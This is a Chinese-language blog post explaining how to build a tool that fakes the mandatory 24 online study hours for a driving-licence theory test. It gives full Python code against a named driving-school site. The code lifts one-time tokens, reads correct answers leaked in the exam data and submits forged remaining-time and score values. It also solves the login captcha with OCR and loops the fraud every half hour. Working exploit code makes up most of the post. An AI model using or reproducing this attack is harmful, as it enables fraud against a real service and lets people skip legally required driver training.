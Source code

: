 ```yaml
---
layout: post
title: 手把手教你制作科目一刷学时神器
description: "captcha recognition"
tags: [python,captcha]
comments: true
image:
  background: bg-gray-paper.jpg
---
```


按照教练的指引登录上某驾驶技术教学网站，规定是要完成在线教学24个学时，才能参加科目一考试。

难道要老老实实的看满24个小时么？No。百度可以发现，网上有很多代刷学时的服务，甚至还有专门刷学时神器，都已经开始软件收费了。下面我们来看看，如何制作一个刷学时的“神器”。


## 刷学时

可以发现，目标网站悦驾网在每个重要的HTTP请求中都加入了一次性的Token，而且服务端对于每个视频长度做了校验，某些视频结束后还会有问答题。如果想通过脚本来逐个刷教学视频，会比较麻烦。再看看其他网站功能，发现做科目一模拟题的时间也会被算在在线学时中。模拟练习的交互过程如下：

1. 用户点击开始模拟练习。
2. 请求题目。
3. 用户提交答卷。提交所有答案，并结束模拟练习。

第三步请求数据包中包含了模拟练习的剩余时间，于是篡改剩余时间并提交，查看学习记录，发现练习的用时果然是通过总时间减去剩余时间进行统计的。这样就可以由用户自己控制每次练习所累积的在线学习时长，达到刷学时的目的。

第二步服务器返回的数据包是JSON格式的题目数据，而数据中已经包含了所有题目的正确答案。于是，“神器”思路如下：

1. 模拟用户开始练习。并解析获取表单中的一次性token
2. 获取题目，并解析出所有正确答案。
3. 模拟用户提交答卷，并设置请求包中表示剩余时间的参数为0。

这样一次就可以刷半个小时。代码如下：

{% highlight python %}
def attack(cookie):
    print "#STEP 1"
    r1 = requests.get("http://car.monicar.cn/StudentManage/KmyMnks",headers={'Cookie':cookie})
    m = re.search(r'__RequestVerificationToken" type="hidden" value="(.*?)" />', r1.content)
    if m:
        print "token: "+m.group(1)
        token = m.group(1)
    else:
        print "no match"
 
    print "#STEP 2"
    r2 = requests.get("http://car.monicar.cn/StudentManage/GetCurrExams",headers={'Cookie':cookie})
    exams = json.loads(r2.content)
    right_answer = '["' + '","'.join(exams['dicAnswer']) + '"]'
    print 'right_answer: '+right_answer
 
    time.sleep(3)
    print "#STEP 3"
    data = {'__RequestVerificationToken':token, 'leftTime':'14:44', 'examCarType':'C1', 'kmType':'1', 'DicUserAnswer':right_answer, 'verifyScore':'100'}
    r3 = requests.post("http://car.monicar.cn/StudentManage/NewGetResult", data=data, headers={'Cookie':cookie})
    print r3.content
{% endhighlight %}

这里需要传入用户自己登录态的Cookie。而对于普通用户来说，这个体验肯定是不符合“神器”标准的。于是我们需要模拟用户登录，这样就得对网站登陆框进行验证码识别。

![verify_image]({{ site.url }}/images/articles/201511/verify_image.jpg)

验证码为4位纯数字验证码，干扰并不是很强。

## 验证码识别

光学字符识别(OCR,Optical Character Recognition)是指对文本资料进行扫描，然后对图像文件进行分析处理，获取文字及版面信息的过程。

Tesseract的OCR引擎最先由HP实验室于1985年开始研发，至1995年时已经成为OCR业内最准确的三款识别引擎之一。然后HP不久却放弃了OCR业务，数年后Google对Tesseract进行改进、消除Bug、优化工作。

Python下也有很多封装Tesseract的类库。这里我们使用了[pytesseract](https://pypi.python.org/pypi/pytesseract)进行识别，使用[PIL](http://www.pythonware.com/products/pil/)工具对图像进行处理。
       
**安装*tesseract-ocr*:**

    brew install tesseract
    https://github.com/tesseract-ocr/tesseract

***Tips***

安装PIL时，可能会报错：

    _imagingft.c:73:10: fatal error: 'freetype/fterrors.h' file not found

**解决方法如下：**

安装[freetype](http://www.freetype.org/download.html)后执行 

    ln -s /usr/local/include/freetype2 /usr/local/include/freetype


pytesseract的原理是使用PIL对图片进行一定处理后，通过subprocess.Popen调用tesseract命令进行图像识别。而Tesseract只能识别黑白图片。所以我们需要对验证码进行一定的预处理，将图像二值化处理，转成黑白图片。

PIL可以对图像的颜色进行转换，支持24位彩色、8位灰度图和二值图等模式。

{% highlight python %}
Image.open('verify_image.jpg').convert('1')
{% endhighlight %}

convert(mode)函数，mode表示所输出的颜色模式，”L”表示灰度，”1”表示二值图模式。convert(‘1’)使用固定的阈值127实现二值化，即灰度高于127的像素值为白色，而灰度低于127的像素值为黑色。

而对于目标网站的验证码，可以看到，噪点均为浅色的灰白线条，我们可以调高二值化的阈值，减少验证码中的数字部分信息的丢失，一定程度上提高识别准确率。代码如下：

{% highlight python %}
def parse_verify_code():
    image = Image.open('verify_image.jpg')
    Limage = image.convert('L')
    Limage.save('verify_image_l.jpg')
    threshold = 180
    table = []
    for  i  in  range( 256 ):
        if  i  <  threshold:
            table.append(0)
        else :
            table.append(1)
 
    Bimage  =  Limage.point(table,'1')
    Bimage.save('verify_image_b.jpg')
 
    verify_code = pytesseract.image_to_string(Bimage,lang='eng',config='digits')
    print "verify code is " + verify_code
 
    return verify_code
 {% endhighlight %}

## 模拟登陆

最后我们结合识别出来的验证码，模拟用户登录。

请求目标网站，获取Session Cookie
获取验证码图片并识别
提交登录请求，解析并保存响应包中的登录态Cookie
代码如下：

{% highlight python %}
User_Cookie = ""
 
def parse_set_cookie(setcookies):
    result = ""
    for sc in setcookies:
        result += sc.split(";")[0]+";"
    return result
 
def get(url,cookie):
    r = requests.get(url,headers={'cookie':cookie})
    if 'set-cookie' in r.headers:
        setcookies = r.headers['set-cookie'].split(",")
        global User_Cookie
        User_Cookie += parse_set_cookie(setcookies)
    return r
 
def init():
    r01 = get("http://car.monicar.cn/",User_Cookie)
    #print User_Cookie
    r02 = get("http://car.monicar.cn/SecurityCode/CreateImageCode",User_Cookie)
    #print User_Cookie
    verify_image = open('verify_image.jpg','w')
    verify_image.write(r02.content)
    verify_image.close()
 
def parse_verify_code():
    image = Image.open('verify_image.jpg')
    Limage = image.convert('L')
    Limage.save('verify_image_l.jpg')
    threshold = 180
    table = []
    for  i  in  range( 256 ):
        if  i  <  threshold:
            table.append(0)
        else :
            table.append(1)
 
    Bimage  =  Limage.point(table,'1')
    Bimage.save('verify_image_b.jpg')
 
    verify_code = pytesseract.image_to_string(Bimage,lang='eng',config='digits')
    print "verify code is " + verify_code
 
    return verify_code
 
def login(username,password,code,cookie):
    print 'logining...'
    data = {'stucard':username, 'stupwd':password, 'yzm':code, 'check':'0'}
    r = requests.post("http://car.monicar.cn/Account/LogOnStu",data=data,headers={'Cookie':cookie})
    print r.content
    if '8' in r.content:
        #print r.headers['set-cookie']
        setcookies = r.headers['set-cookie'].split(",")
        global User_Cookie
        User_Cookie += parse_set_cookie(setcookies)
        return True
    else:
        return False
{% endhighlight %}


## 结束

验证码识别成功率基本50%左右，平均两次就可登陆成功。一次登录成功之后就可以利用Cookie刷学时了。可以设置每次间隔1800秒刷一次。

{% highlight python %}
import requests
import json
import re
import time
import pytesseract
import Image
import subprocess
import os
 
'''省略前文代码'''
 
if __name__ == "__main__":
 
    username = "xxxxxxxx"
    password = "xxxxxx"
 
    for i in xrange(10):
        init()
        code = parse_verify_code()
        if login(username, password, code, User_Cookie):
            print 'Login Success'
            #print User_Cookie
            break
        else:
            print 'Login Failed. Retrying...'
 
    for i in xrange(8):
        time.sleep(1800)
        attack(User_Cookie)
{% endhighlight %}

*PS: 该学的驾驶理论知识还是要好好学喔。*
